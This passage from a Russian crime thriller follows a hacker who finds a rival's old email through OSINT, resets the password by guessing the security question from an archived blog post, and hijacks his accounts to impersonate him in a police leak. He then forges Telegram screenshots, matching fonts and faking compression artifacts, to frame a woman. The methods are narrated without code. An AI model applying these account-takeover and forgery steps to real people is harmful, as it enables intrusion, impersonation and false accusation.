И сразу почувствовал разницу. Если «Hex» был хирургом, то «Morok» — мясником. Громким, хвастливым и неаккуратным. Никита открыл один из популярных теневых форумов и вбил ник в поиск. Десятки постов. «Morok» любил внимание. Выкладывал скриншоты взломанных серверов, не всегда тщательно затирая IP-адреса. Насмехался над «параноиками», кичился заработками. Он был человеком. А значит, у него были уязвимости.

Никита начал методично, пост за постом, анализировать его активность. Скачивал каждый выложенный файл. Изучал время публикаций, пытаясь определить часовой пояс. Анализировал лексику. Через три часа он нашёл то, что искал. В одном из постов 2018 года, где «Morok» спорил с другим участником, он в сердцах написал: «Да задолбали вы со своими торами, у меня для рег на всяком говне есть отдельная мыльница уже лет десять, и никто меня не нашел». И приложил скриншот, где в углу экрана на долю секунды мелькнул открытый почтовый клиент с адресом: morok1992@pochta․ru.

Никита замер. Он увеличил скриншот, прогнал через фильтры. Адрес был виден чётко. Он откинулся на спинку скрипучего стула. По телу пробежал короткий электрический разряд — тот самый сигнал, который мозг подаёт, когда находит искомое. Первая зацепка. Самонадеянность и лень «Morok» сделали его идеальной мишенью. Охота началась.

*20 декабря 2023, 18:30.*

За окном окончательно стемнело. Единственным источником света в комнате был монитор. Всё, что было за его пределами, перестало существовать. Остался только поток информации.

Он открыл терминал Whonix. Чёрный экран с зелёными буквами. Запустил SpiderFoot. Пальцы привычно забегали по клавиатуре. «Поток цифрового мусора, — подумал он, скармливая программе ник «Morok» и найденный email. — Девяносто девять процентов — шлак. Но где-то там есть то, что мне нужно». Это напомнило ему ночи в общаге, когда он часами сидел над дизассемблированным кодом, выискивая одну уязвимость среди сотен тысяч строк.

На экране начали появляться результаты. Развернулся граф связей: десятки узлов, сотни линий. Аккаунты на Github. Профиль в Steam с тысячами часов в Counter-Strike. Забытый аккаунт в Twitter. Цифровой мусор, следы жизни, оставленные в сети.

Никита методично, не пропуская ни одной, открывал ссылку за ссылкой. Большинство вели в никуда. Форумы, которые давно закрылись. Накапливалась усталость, начинали болеть глаза. Он сделал глоток холодного кофе. Гадость. Но нужно было продолжать.

Среди сотен ссылок одна зацепила внимание: morok․livejournal․com. Живой Журнал. Привет из прошлого. Он щёлкнул по ссылке. «Блог удалён или скрыт». Тупик? Нет. Ничто в интернете не исчезает бесследно. Он скопировал адрес и вставил его в строку поиска на archive․org — Wayback Machine.

На экране замелькали синие точки на календаре. Последний снимок был сделан в конце 2011 года. Он нажал на ссылку. Страница загрузилась, медленно, с артефактами и битыми картинками, как призрак. Дизайн был ужасен: чёрный фон, ядовито-зелёный шрифт, анимированный череп в углу. Типичный блог юного «хакера».

Он начал пролистывать посты. Записи о новой версии Ubuntu. Восторги по поводу выхода альбома какой-то метал-группы. Жалобы на препода в универе. Студенческая жизнь, выложенная на всеобщее обозрение. Как можно быть таким идиотом?

Он уже почти закрыл вкладку, когда взгляд зацепился за заголовок поста от 14 мая 2010 года. «Прощай, друг». Он открыл его. Текст был коротким. Восемнадцатилетний «Morok» писал о своей собаке, немецкой овчарке, которую пришлось усыпить. И в конце поста, под выцветшей фотографией щенка, стояла одна фраза: «Я никогда тебя не забуду, Арчи».

Никита замер. В комнате стало так тихо, что он слышал лишь ровный шелест кулера. Он смотрел на фотографию лопоухого щенка и не чувствовал ничего. Ни жалости, ни сочувствия. Просто нашёл ключ. Не технический эксплойт, не уязвимость в коде. Уязвимость в человеке. Самую надёжную и предсказуемую из всех.

*20 декабря 2023, 22:00.*

Ночь запечатала Колпино в кокон темноты. Никита сидел неподвижно. Проверил IP-адрес через несколько цепочек Tor, убедился, что DNS-запросы не утекают. Подготовил всё.

Он открыл новую вкладку и ввёл адрес почтового сервиса. Перевёл курсор на ссылку «Забыли пароль?» и щёлкнул. Тишина в ушах сменилась низким гулом крови. Он сделал глубокий, прерывистый вдох, чувствуя, как леденеют кончики пальцев. «Сейчас. Или да, или нет. Если он сменил вопрос, я потерял трое суток. Придётся начинать сначала. А времени нет». Вспомнился экзамен по криптографии. Тот же холод в животе перед тем, как перевернуть билет. Только сейчас ставкой была не оценка, а свобода.

На странице восстановления он ввёл email: morok1992@pochta․ru. Нажал «Далее». Выбрал вариант «ответить на секретный вопрос».

Страница обновилась. На экране появилась надпись, от которой у Никиты на мгновение перехватило дыхание.

«Кличка вашего первого питомца?»

Кривая усмешка тронула его губы. Шах и мат. Никаких сложных эксплойтов. Просто человеческая лень. Человеческая сентиментальность. Люди не меняются. Они предсказуемы.

Он занёс пальцы над клавиатурой. На мгновение представил себе этого «Morok». Какого-то парня, который десять лет назад любил свою собаку, а теперь стал для него просто целью. Никита не почувствовал сожаления. Либо ты, либо тебя.

Он медленно, с расстановкой, набрал четыре буквы.

*А. р. ч. и.*

Слово Арчи появилось в поле ввода. Он перевёл курсор на кнопку «Продолжить». Замер на долю секунды. И нажал.

Страница на мгновение зависла. Время растянулось, стало вязким. Он не дышал, глядя в экран, и в его отражении видел два тёмных провала глаз на бледном, измождённом лице.

Затем страница обновилась.

Серая, утилитарная веб-форма с двумя полями: «Новый пароль» и «Подтвердите пароль».

Никита медленно выдохнул. Доступ получен.

*21 декабря 2023, 00:00.*

Полночь. Получив доступ к почтовому ящику, Никита не медлил. Усталость испарилась, сменившись холодной, звенящей энергией.

Первым делом — настройки безопасности. Никакой двухфакторной аутентификации. Идеально. Он быстро привязал к аккаунту одну из своих анонимных почт и сменил секретный вопрос на бессмысленный набор символов.

Используя почтовый ящик как мастер-ключ, Никита начал методично захватывать цифровую личность цели. Он открывал вкладку за вкладкой — теневые форумы, файлообменники, хостинг. На каждой странице нажимал «Восстановить пароль», получал ссылку и устанавливал свой, сгенерированный. Щелчок, письмо, ссылка, новый пароль. Монотонный, почти промышленный процесс. Он чувствовал себя оператором конвейера. Каждый захваченный аккаунт был ещё одним гвоздём в крышку гроба цифровой личности «Morok». «Теперь ты — это я. Твои аккаунты — мои. Твоя репутация — моя. Твои враги… скоро станут моими союзниками».

За полчаса он захватил контроль. Чтобы маска сидела идеально, нужно было понять человека под ней. Никита открыл личные сообщения «Morok» на главном форуме и начал читать. Он погружался в чужую жизнь. «Morok» писал с ошибками, пропускал запятые. Использовал устаревший сленг, вроде «кароч» и «норм». После каждой второй фразы ставил закрывающую скобку. Груб, прямолинеен, агрессивен. Никита впитывал это.

Среди десятков диалогов он наткнулся на переписку трёхмесячной давности. Собеседник — «Посредник». «Morok» пытался продать ему доступ к бухгалтерии небольшой фирмы, но денег так и не получил. Переписка была короткой.

*Morok: ну чё там?)*

*Посредник: ждем.*

*Morok: кароч вы неделю уже ждете. где бабки?*

*Посредник: вопрос решается. не нагнетай.*

Дальше «Посредник» перестал отвечать. В других чатах Никита нашёл продолжение: «Morok» жаловался, что его «кинули люди Алиева», что он «этих чертей достанет» и «сольёт всех к херам». Дальше пустых угроз дело не пошло.

Никита откинулся на спинку стула. Идеально. Готовый, задокументированный мотив. План обрастал плотью.

Он открыл пустой текстовый файл и начал печатать, подражая стилю «Morok».

*«кароч слушайте сюда ублюдки)»*

Стёр. Слишком прямолинейно.

Он закрыл глаза, пытаясь представить себе этого человека. Его злость, его обиду. И напечатал снова.

*«помните меня? походу нет) а я вас не забыл. вы свой полтос зажали, а я вам теперь весь ваш бизнес на миллиарды помножу на ноль) ждите новостей, пидоры)»*

Он перечитал. Да. Грубо. С ошибками. С характерной скобкой в конце. Похоже.

*21 декабря 2023, 02:30.*

В комнате было холодно, пальцы стыли. Мозг работал на пределе. Последний этап. Сборка архива-оружия.

Он создал на рабочем столе новый зашифрованный контейнер VeraCrypt. Двойное шифрование, AES и Serpent. Пароль — сто двадцать восемь случайных символов.

Работа началась. Он открыл свои собственные архивы, базу данных, которую собирал месяцами. Вся подноготная сети Рустама Алиева. Имена дроповодов. Адреса десятков крипто-кошельков. Схемы обнала через фирмы-однодневки. Контакты коррумпированных сотрудников банков. Вся кровеносная система империи Алиева. Он методично, файл за файлом, перетаскивал всё это в зашифрованный контейнер.

Чтобы «слив» выглядел достоверно, он не мог быть идеальным. «Morok» не мог знать всего. Никита начал намеренно вносить «шум». Удалил информацию о нескольких ключевых фигурах. Изменил пару цифр в номерах счетов. Добавил несколько тупиковых веток. Архив должен был выглядеть как работа мстительного инсайдера, а не отчёт спецслужб.

Следующий шаг — интеграция легенды. Никита открыл архив личных сообщений «Morok». Он выбрал несколько фрагментов, не имеющих отношения к делу, и добавил их в общую кучу. А затем взял тот самый диалог с «Посредником» Алиева. Он сделал скриншоты, тщательно зачистил метаданные и положил их в отдельную папку «ДОКАЗАТЕЛЬСТВА_КИДКА». Он паковал в архив уникальную информацию, которую мог бы использовать сам. Цена достоверности.

Наконец, он создал текстовый файл README․txt. Обращение, написанное от чужого имени. Он снова и снова перечитывал текст, который сочинил ранее.

*«мусорам. это вам подарок на новый год от рустама алиева) точнее от меня, но платит он) этот пидор кинул меня на бабки. думал я утрусь) я не утерся. в архиве все что я знаю про его сетку. дропы, кошельки, фирмы. мне пох на них всех, я просто хочу чтоб эта мразь сдохла. тут инфы лет на двадцать строгача для всей его шоблы. разбирайтесь. morok.»*

Он добавил в конец пару грубых ругательств и фирменную скобку.

Когда всё было готово, он запаковал контейнер в один ․7z архив, защитив его паролем AlievSuka1. Имя файла: aliev_net_full_dump․7z.

Он отодвинул ноутбук. На рабочем столе, среди системных иконок, лежал один-единственный файл. Маленький, невзрачный значок архива. Он смотрел на него, иконка на грязном рабочем столе казалась единственной реальной вещью в этой комнате. Это был не архив. Это было оружие, и он только что снял его с предохранителя.

### Глава 12

Глава 12

Никита отсчитывал время не по часам, а по циклам перезагрузки Tor-цепочки. За эти шесть дней он превратился из загнанного зверя в охотника в засаде. Паника ушла. Выгорела, как фосфор, оставив после себя только холодный белый пепел ярости. Он больше не бежал. Он ждал.

Он спал урывками по два-три часа, просыпаясь от малейшего шума за стеной — скрипа лифта, шагов на лестнице. Каждый раз он замирал, вслушиваясь в гул крови в висках, и ждал тяжёлого стука в дверь. Но стука не было. Тишина в квартире стала физической. Она закладывала уши, заставляла прислушиваться к собственному дыханию. Каждый скрип половицы этажом выше звучал как приговор. Но он же и подтверждал: его ещё не нашли.

Всё это время он доводил своё оружие до совершенства. Несколько раз он полностью пересобирал архив aliev_net_full_dump․7z, внося в него микроскопические, но правдоподобные изъяны. В одном документе он намеренно оставил пару опечаток, в другом — слегка поправил таймстампы, чтобы создать иллюзию небрежности, свойственной обиженному и спешашему человеку. Он часами читал логи старых чатов с участием «Morok», впитывая его манеру общения, его излюбленные словечки. Он учился быть им. Он прогонял легенду, как код перед компиляцией, выискивая синтаксические ошибки. Ценой ошибки была не синяя ошибка экрана, а пуля в затылок.

Его мир сузился до экрана дешёвого ноутбука и четырёх обшарпанных стен в Колпино. Он ел, не чувствуя вкуса, пил остывший растворимый кофе. Он превратил свой страх в протокол. Проверка Wi-Fi сетей каждые полчаса. Смена MAC-адреса каждые два часа. Полная очистка оперативной памяти каждые четыре. Он стал функцией, алгоритмом выживания. И теперь, на исходе шестого дня, 27 декабря, он был готов нажать на спусковой крючок.

Воздух в комнате был спёртым, тяжёлым. Пахло пылью, горячим пластиком и кислым запахом нестираной одежды. Никита сидел на жёстком стуле, ссутулившись над клавиатурой. Его лицо, освещённое холодным светом экрана, казалось восковым. Он не чувствовал ни голода, ни усталости. Только ледяную, звенящую сосредоточенность, какая бывает у сапёра перед последним движением.

На экране светились два окна виртуальной машины Whonix. Он в очередной раз проверил цепочку нодов. Входной узел — Германия, промежуточный — Нидерланды, выходной — Швейцария. Хорошая, надёжная цепочка. Он делал это автоматически, на уровне рефлекса.

Он ввёл в адресную строку знакомый ․onion-адрес. silovikileaks․onion. Ресурс, известный в узких кругах как самый надёжный почтовый ящик для тех, кто хотел анонимно поделиться информацией с Системой. Он нажал Enter. Щёлчок клавиши прозвучал сухо и громко. Он почувствовал, как по виску медленно ползёт капля пота, холодная, как расплавленный припой. Внизу экрана замелькала надпись «Подключение…». Она мелькала десять секунд. Тридцать. Минуту. А потом сменилась короткой, безжалостной строкой: «Не удаётся соединиться с сервером».

«Чёрт», — мысль была не злой, а усталой. Он нажал F5. Снова. Тот же результат. «Лежит. Либо DDoS, либо сами легли на дно». Эта мелкая, бытовая неудача выбила его из выверенного ритма. План, который он оттачивал шесть дней, споткнулся на первом же шаге. Он почувствовал, как ледяной обруч самоконтроля, который он сжимал всё это время, пошёл трещинами, и сквозь них начала просачиваться горячая, тошнотворная паника.

«Спокойно. План Б». Он заставил себя дышать ровно. Он открыл зашифрованный контейнер VeraCrypt, ввёл сороказначный пароль, и на экране появился небольшой текстовый файл notes․txt. Его личная база знаний. Он нашёл нужную секцию. Резервный вариант. Не специализированный сайт, а крупный теневой форум с разделом для «обратной связи». Менее надёжно, но выбора не оставалось.

Он перешёл по ссылке. Форум открылся мгновенно. Уродливый дизайн из начала двухтысячных, тёмно-серый фон, ядовито-зелёные буквы. Он нашёл нужную ветку: «Связь с кураторами (анонимно)». Внутри — простая форма отправки сообщений. И PGP-ключ для шифрования.

«Так, теперь без спешки». Он скопировал ключ. Открыл Kleopatra — менеджер сертификатов. Импортировал ключ. Проверил отпечаток. Сравнил его с отпечатком, который нашёл на трёх других, независимых ресурсах. Всё сходилось. Это был не фишинг. Он потратил на эту проверку почти пятнадцать минут. Пятнадцать минут, за которые его могли вычислить, выломать дверь. Но спешка была ещё опаснее.

Наконец, он был готов. Он открыл другой текстовый файл, где заранее заготовил сообщение. Мысленно он был уже не собой, а «Morok» — тем, кто не просит, а требует.

Курсор мигал в пустом поле формы. Никита начал печатать. Не копировать-вставить, нет. Это оставляет следы. Он печатал вручную, намеренно допуская пару опечаток и тут же их исправляя, имитируя живого человека.

«*Есть полный расклад по сетке Алиева. Все дропы, обнальные конторы, бухгалтеры. Эти мрази меня кинули три месяца назад. Думал забыть, но теперь достали. Отдаю всё. Взамен хочу, чтобы по моим старым грешкам (дело №381-А/21) не было никакого движения. Архив под паролем. Пароль — после подтверждения вашего интереса. Жду ответа тут».*

Коротко. По-деловому. С мотивом. Упоминание номера старого дела, которое он нашёл в переписке «Morok», должно было придать его словам вес. Это выглядело как деловое предложение. Торг, а не паническая сдача. Он прикрепил к сообщению маленький текстовый файл, содержащий лишь дерево каталогов будущего архива. Демонстрация товара.

Он ещё раз перечитал текст. Каждое слово было выверено. Он был готов.

Палец завис над левой кнопкой мыши. Всего один клик. Одно движение длиной в пару миллиметров. Но за этим движением стояла пропасть. Он отправлял на растерзание Системе десятки людей. Дропов, обнальщиков, бухгалтеров. Таких же, как он, винтиков в этой грязной машине. Кто-то делал это от жадности, кто-то от глупости, кто-то от безысходности. Теперь это не имело значения. Они все станут строчками в отчётах, цифрами в статистике. Расходным материалом.

«Или я, или они». Эта мысль вспыхнула в его голове, холодная и острая, как заточка. Он не чувствовал раскаяния. Только холодное спокойствие администратора, который отключает зависший сервер от сети. Плевать, какие процессы там не сохранились. Главное — чтобы система снова заработала. Его система. Его жизнь.

Мышь в его руке казалась чужеродным, холодным предметом. Пластик стал липким от пота. В тёмном экране ноутбука отразилось бледное, осунувшееся лицо. Он не узнавал этого человека. Это был не Никита Сергеев, задрот-сисадмин. Это был B4d_M00d. И B4d_M00d не колеблется.

Он надавил на кнопку.

Щёлчок. В абсолютной тишине комнаты звук показался оглушительным, как будто сломалась кость. На экране на долю секунды появилось окно загрузки, а затем — короткая фраза ядовито-зелёным цветом: «Ваше сообщение отправлено на модерацию».

Всё. Точка невозврата пройдена.

Он не почувствовал ни облегчения, ни триумфа. Только пустоту. Будто внутри перегорел какой-то важный предохранитель, и целый блок эмоций — вина, сомнения, страх — просто перестал получать питание. Теперь осталась только одна рабочая схема: выживание.

Он откинулся на скрипучую спинку стула. Тело била мелкая, нервная дрожь. Адреналиновый отходняк. Он только что запустил в чужую сеть вирус-шифровальщик без ключа для расшифровки. Теперь оставалось смотреть, как система пойдёт вразнос.

Но расслабляться было нельзя. Он резко подался вперёд. Закрыл Tor-браузер. Запустил скрипт, который несколько раз перезаписал случайными данными кэш браузера и файл подкачки. Затем он открыл notes․txt и стёр оттуда всю информацию о форуме и PGP-ключе. Никаких следов. Он оставил открытой только одну вкладку в новом сеансе Tor, ведущую на ту самую ветку форума. Он будет обновлять её каждые пять минут. День. Два. Неделю. Столько, сколько потребуется. Он превратился в ожидание.

Кабинет майора Власова был храмом заведённого порядка и тихой усталости. Воздух здесь пах старой бумагой, остывшим растворимым кофе и чем-то неуловимо металлическим от оргтехники. На идеально чистом столе стояли три предмета: старый монитор, кружка с надписью «Лучшему папе» (подарок дочери пять лет назад, за год до развода) и тяжёлая чёрная пепельница, хотя сам Власов не курил уже лет десять.

Он как раз доливал в кружку кипяток, когда дверь без стука приоткрылась и в кабинет заглянул молодой лейтенант Олег, аналитик из соседнего отдела.

— Дмитрий Сергеевич, тут по анонимным каналам пришло. Похоже на мусор, но… есть деталька.

Власов медленно размешал ложкой бурду в кружке, даже не взглянув на Олега.

— Какая деталька?

— Там… ник упоминается, «Morok». И номер дела.

Власов замер с ложкой в руке. Он поставил кружку на стол. Кофе расплескался. Власов не обратил внимания. Подошёл к столу Олега. Тот уже развернул к нему монитор.

— Дай сюда.

Он вчитался в короткое сообщение на экране. Его лицо не выражало ничего. Но он перестал жевать дужку очков, что было верным признаком предельной концентрации. «Morok». Да, он помнил этот ник. Мелкий, но наглый DDoS-ер. Дело №381-А/21. Старый «висяк». Информация, которую не мог знать никто со стороны. Это не было похоже на обычный спам.

— Интересно, — протянул Власов. Он сел за клавиатуру Олега. Его пальцы забегали по клавишам с неожиданной быстротой. Он набрал ответ. Два слова.

«*Интерес подтверждаю*».

Отправил.

Они ждали молча. Олег нервно переминался с ноги на ногу. Власов сидел неподвижно, глядя в экран. Он напоминал старого крокодила, затаившегося в мутной воде. Через три минуты пришёл ответ. Короткая строка из букв и цифр. Пароль.

— Качай, — бросил Власов.

Архив весил почти два гигабайта. Скачивался мучительно долго. Наконец, полоска загрузки дошла до конца. Олег ввёл пароль. Архив открылся. На экране появилось дерево папок. «Дропы». «Обнал-конторы». «Бухгалтерия». «Переписки_TG».

Олег кликнул на первую попавшуюся папку. Внутри были десятки подпапок с именами и кличками. В каждой — сканы паспортов, номера карт, адреса. Он открыл файл из «Переписок». На экране поползли логи чатов, полные мата, цифр и инструкций.

— Ни хрена себе… — выдохнул Олег. — Дмитрий Сергеевич, это же… это вся сеть Алиева. Схемы, счета, имена, всё. Это бомба.

— Или деза, — спокойно ответил Власов, не отрывая глаз от экрана.

— Какая деза? Тут сканы, логи! Чтобы такое состряпать, нужна целая команда. Может, провокация? Хотят, чтобы мы увязли в этом, а настоящая цель тем временем уйдёт?

Власов молча листал файлы. Он открыл папку «Личное». Внутри были фотографии. На одной из них Алиев стоял в обнимку с каким-то чиновником. На другой — скриншоты переписки, где обсуждалась взятка за строительный подряд.

— Нет, Олег. Это не деза, — Власов наконец откинулся на спинку стула. — Слишком много грязи. Настоящей, жирной, человеческой грязи. Такое не придумаешь. Это можно только украсть. — Он ткнул пальцем в экран. — Проверь выборочно вот эти три фамилии по нашим базам. И вот этот номер счёта. Быстро. И никому ни слова.

Он смотрел на экран, и его лицо, обычно уставшее, на мгновение заострилось. Взгляд стал цепким. Так смотрит волк, который среди стада овец увидел хромую. Он не знал, почему «Morok» решил слить своего бывшего партнёра. Месть, деньги, страх — ему было плевать. Он видел перед собой подарок судьбы. Возможность одним ударом снести целую преступную империю. Закрыть годовой план по отделу. И, может быть, наконец-то получить полковника. Дело по какому-то мелкому хакеру-обнальщику могло и подождать.

Через три часа кабинет Власова превратился в импровизированный штаб. Олег вернулся с распечатками. Его глаза горели.

— Предварительная проверка по базам дала совпадение, Дмитрий Сергеевич. Двое из троих — действительно наши старые клиенты. Счёт принадлежит фирме, которая уже светилась в разработке по Алиеву. Информация выглядит крайне достоверной.

Власов кивнул. Он ожидал этого. Он собрал у себя двух ключевых сотрудников — капитана Рыкова, начальника «наружки», и старлея Петренко, своего заместителя. Он кратко изложил ситуацию.

— Поступила оперативная информация. Достоверная. Появилась возможность взять всю группу Алиева. С потрохами. Но на это нужны все наши ресурсы. Абсолютно все.

Рыков, грузный мужчина с лицом, которое, казалось, никогда не улыбалось, нахмурился.

— Дмитрий Сергеевич, а как же дело по обнальщикам? Которое с дропами… Мы же там почти вышли на организатора. У нас зацепка по геолокации…

Власов резко его оборвал взглядом.

— Организатор «обнала» украл пятьдесят миллионов. Алиев в месяц крутит в десять раз больше. Чувствуешь разницу, капитан? Наш обнальщик — мелкая сошка. Он никуда не денется. Он думает, что залёг на дно. Вот и пусть думает. Притормозим все активные мероприятия по нему. Снимем наблюдение с его матери. Пусть расслабится. Это его успокоит, и он совершит ошибку. А мы в это время займёмся настоящей рыбой.

Его слова звучали как приказ. Никто не возражал. Логика была железной. Карьерная логика. Дело Алиева — это медали, звания и премии. Дело безымянного хакера — это просто ещё одна палка в статистике. Выбор был очевиден.

Власов встал, прошёлся по кабинету.

— Значит, так. С этой минуты наша приоритетная цель — Алиев Рустам Маратович. Рыков, всю твою команду — на него. Все его известные адреса, машины, контакты. Мне нужно знать, где он спит и с кем разговаривает. Петренко, ты поднимаешь все старые дела, где он фигурировал. Собираешь аналитическую группу. Информацию от «Morok» используете как основу. Олег, ты — мой личный канал связи с источником. Действуем тихо. Максимально тихо. Алиев не должен почувствовать ничего до самого конца.

Он остановился у окна, глядя на темнеющий город. Там, в одной из миллионов светящихся коробок, сидел его «обнальщик». Сидел и думал, что всех перехитрил. Власов криво усмехнулся. План Никиты сработал даже лучше, чем тот мог себе представить. Он не просто выиграл время. Он исчез с радаров Системы.

Прошли ещё сутки. Сутки оглушительной тишины. Никита сидел в темноте, механически обновляя страницы новостных агрегаторов и криминальных сводок. Ничего. Эта тишина была хорошим знаком. Она означала, что его наживку проглотили. Но нервы были натянуты до предела.

Он больше не мог этого выносить. Ему нужно было услышать живой человеческий голос. Он достал из рюкзака старый кнопочный телефон и левую SIM-карту. Включил. Набрал единственный номер, используя зашифрованный мессенджер с подменой голоса.

Гудки шли долго. Наконец, на том конце ответили.

— Алло?

Голос матери был слабым, с одышкой.

— Мам, привет. Это я. Как ты?

— Никитушка… сынок… — в её голосе прозвучало облегчение, смешанное с тревогой. — Я… нормально. Как ты, где ты?

— Работа, мам. Очень много работы. Большой проект, я же говорил. Что врачи говорят?

Пауза. В трубке было слышно её тяжёлое, свистящее дыхание.

— Я была сегодня у профессора… Он… он сказал, что здесь уже… мало что могут сделать. Динамика отрицательная.

Слова матери ударили по нему, как разряд дефибриллятора, мгновенно выжигая остатки тактического триумфа. Вся его сложная схема, его победа над Власовым, его план мести — всё это стало мелким, пошлым и ничтожным.

— Мам…

— Но… есть вариант, — поспешно добавила она. — Есть клиника в Германии. В Мюнхене. Какое-то… экспериментальное лечение. Профессор сказал, что это может помочь. Даёт хороший шанс… Но это… это такие деньги, сынок… я даже… я даже сумму боюсь называть.

Она назвала сумму. В евро. В голове у Никиты на мгновение стало абсолютно тихо. А затем цифра, которую назвала мать, ударила по нему с силой отбойного молотка, дробя в пыль его только что выстроенную крепость самообладания. Он согнулся над столом, хватая ртом воздух.

— Сколько? — его голос стал хриплым, чужим.

Она повторила. Сумма, от которой у него потемнело в глазах. Это было больше, чем все его крипто-сбережения. Больше, чем он мог бы украсть даже в самой удачной операции. Это была стена. Непробиваемая.

А он уже пообещал. Он уже солгал. И теперь он должен был превратить эту ложь в правду.

— Мам, слушай меня, — его голос стал твёрдым, почти металлическим. Он сам не узнавал его. — Не волнуйся. Слышишь? Ни о чём не волнуйся. Я же говорил, у меня большой проект. Деньги будут. Я всё решу. Просто… просто дай мне ещё немного времени.

— Никитушка, я…

— Я перезвоню, мам. Я всё решу.

Он нажал отбой.

Он сидел в полной темноте. Телефон в его руке казался тяжёлым, как камень. Тактическая передышка, которую он так гениально выиграл, больше не имела никакого значения. Ему нужно было не время. Ему нужны были деньги. Огромные, немыслимые деньги. И достать их нужно было быстро.

Он смотрел в чёрный, погасший экран ноутбука. Там, в отражении, на него смотрел загнанный зверь. И этот зверь только что понял, что для спасения самого дорогого ему существа ему придётся не просто драться. Ему придётся рвать глотки. Всем. Козлову. Алиеву. И всем, кто встанет у него на пути. Война за выживание закончилась. Началась война за деньги. И ставки в ней были несоизмеримо выше.

### Глава 13

Глава 13

Два дня после звонка матери Никита провёл в состоянии, которое врачи назвали бы диссоциативным расстройством. Он не спал и почти не ел, перебиваясь сухими галетами и тёплой водой из-под крана. Организм, выжженный неделями адреналина, перешёл в режим аварийного энергосбережения. Эмоции исчезли. Страх, отчаяние, даже ярость — всё это сгорело, оставив после себя лишь гладкую, холодную поверхность единственной цели. Деньги. Не просто много денег, а конкретная, чудовищная сумма в евро. Сумма, которая превратила его сложный план выживания в примитивный алгоритм хищника: убить, забрать, исчезнуть.

Эти сорок восемь часов он не просто ждал. Он работал. Работал так, как не работал никогда в жизни. Его разум, освобождённый от балласта человеческих чувств, превратился в высокопроизводительный процессор, анализирующий единственный массив данных — полный бэкап переписки Елены Вороновой. Он читал и перечитывал диалоги, вгрызаясь в каждую фразу, каждую опечатку. Он искал не техническую уязвимость, а человеческую. Эмоциональный эксплойт. Он строил психологические профили своих врагов, раскладывая их повадки, страхи и триггеры в аккуратные папки в своей голове. Он превратился из хакера в социального инженера, готовящегося написать свой самый опасный код, нацеленный не на машины, а на человеческую паранойю. К вечеру тридцатого декабря он был готов.

*30 декабря 2023 года. 14:15. Колпино.*

Воздух в комнате стоял плотной, неподвижной массой. Он пах остывшим пластиком перегретого ноутбука и пылью, которую вентилятор гонял по кругу уже которую неделю. Никита сидел на жёстком стуле, сгорбившись. Свет от экрана выхватывал из полумрака его осунувшееся лицо, стянутую пергаментной бледностью кожу и провалившиеся, воспалённые глаза. Он не чувствовал ни усталости, ни голода. Тело стало просто носителем для мозга, а мозг — инструментом.

На экране были открыты два окна. Слева, в текстовом редакторе, — сырые логи переписки Лены. Справа — графический редактор GIMP, чистый холст, ждущий своей лжи. Ему нужно было не нарисовать фейк. Ему нужно было собрать его, как цифрового Франкенштейна, из кусков настоящей, живой плоти.

Он начал методично. Выделил курсором плашку с реальным сообщением Лены, скопировал её как отдельный слой в GIMP. Потом — аватарку её куратора, временную метку, двойную галочку-подтверждение о прочтении. Он не создавал, а клонировал. Каждый элемент должен был нести на себе микроскопические артефакты сжатия, которые отличали настоящий скриншот от идеальной подделки. Это была работа не художника, а реставратора.

Щелчки тачпада были единственным звуком в неподвижном воздухе. Он чувствовал, как затекла спина, как ноют мышцы шеи. Глаза горели от многочасового всматривания в пиксельную сетку.

Первая проблема возникла через час. Он создал идеальную копию сообщения, но нужно было поменять имя контакта. Вместо «Дмитрий Сергеевич» он начал набирать «Р.М.». И тут же замер.

«*Нет. Не то. Шрифт… Кернинг другой. Расстояние между буквами… оно чуть-чуть, на долю пикселя, но отличается. Сука. У меня в системе стоит стандартный Noto Sans, а в клиенте Telegram, видимо, своя, кастомная версия. Козлов этого не увидит. Его быки — тем более. Но что, если у него есть свой технарь? Один взгляд, одна проверка свойств шрифта — и всё. Вся работа коту под хвост из-за одного грёбаного пикселя*».

Мышцы вдоль позвоночника свело ледяным спазмом. Не страх — злая, едкая досада на собственную оплошность. Он почувствовал, как напряглись мышцы челюсти. Нельзя допускать ошибок. Ни одной.

Он вспомнил, как на четвёртом курсе сдавал проект по криптографии. Он написал идеальный код, но забыл поставить одну точку с запятой. Преподаватель, старый, въедливый доцент, молча ткнул пальцем в экран и сказал фразу, впечатавшуюся в его память навсегда: «Дьявол, молодой человек, не в деталях. Дьявол — это и есть детали».

Никита откинулся на спинку стула. Он открыл браузер в Tor и начал искать. «Telegram Desktop font version», «download noto sans telegram custom». Поиски заняли почти час. Он копался в репозиториях на GitHub, читал форумы разработчиков, пока наконец не нашёл точную версию файла шрифта, зашитую в одну из старых сборок мессенджера. Он скачал её, установил в систему и перезапустил GIMP. Теперь буквы встали на свои места идеально.

Следующие три часа он посвятил созданию нарратива. Он не писал прямых обвинений. Это было бы слишком грубо. Он создавал историю из намёков, которую параноидальный мозг Козлова должен был достроить сам.

Он скомпоновал несколько скриншотов.

Первый — нейтральная переписка. «Р.М.» ставит Лене задачу по одному из дропов. Обычная работа.

Второй — появляется двусмысленность. Лена пишет: «Главное, чтобы В. не заподозрил, что мы играем на две стороны». Имя Козлова — Антон Викторович. Буква «В» была идеальной приманкой. Для Козлова это будет означать только одно — «Викторыч».

Третий — финансовый вопрос. «Р.М.»: «Сумма бонуса зависит от чистоты работы. Новый шеф не любит публичности». Никита намеренно оставил одну из временных меток совпадающей с днём, когда Козлов лично обсуждал с ним детали вывода средств. Это создавало иллюзию слива информации в реальном времени.

Четвёртый, финальный скриншот. Лена пишет: «Всё готово. Они клюнут. Он слишком уверен в себе». Ответ от «Р.М.»: «Отлично. Жду сигнала».

Это была мозаика, каждый кусочек которой был правдой. Но сложенные вместе, они создавали чудовищную ложь.

Когда работа была закончена, он приступил к финальной обработке. Он открыл каждый готовый скриншот в формате PNG, затем сохранил его как JPEG с качеством 80%. Потом открыл получившийся JPEG и снова пересохранил его, но уже с качеством 75%. Он повторил процедуру четыре раза. Это искусственно «состаривало» файлы, добавляя им едва заметные артефакты сжатия, словно их много раз пересылали друг другу. Они выглядели как грязные, затёртые улики.

Никита потёр воспалённые глаза. Кулер ноутбука отчаянно гудел. Он откинулся на стуле, и тот протестующе скрипнул. За окном сгущались декабрьские сумерки. Работа была сделана.

*30 декабря 2023 года. 18:40. Колпино.*

Создать яд было только половиной дела. Теперь его нужно было правильно доставить. Козлов должен был проглотить наживку, не раздумывая.

